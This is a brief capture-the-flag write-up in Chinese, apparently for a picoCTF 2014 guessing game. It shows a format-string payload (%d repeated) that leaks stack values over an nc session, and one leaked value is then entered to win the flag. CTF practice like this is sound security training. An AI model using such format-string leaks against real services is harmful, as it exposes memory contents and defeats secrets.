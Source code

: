 # Guess
看原始碼，發現有 *format string vulnerability*，那麼只要印出stack裡的數值，一個一個猜就行了

## Solve
```bash
$ nc vuln2014.picoctf.com 4546
Hello! What is your name?
%d.%d.%d.%d.%d.%d
Welcome to the guessing game, 32.-142918624.156700680.-658156941.47.156700680

I generated a random 32-bit number.
You have a 1 in 2^32 chance of guessing it. Good luck.
What is your guess?
-658156941
Wow! You guessed it!
Your flag is: leak_the_seakret
```
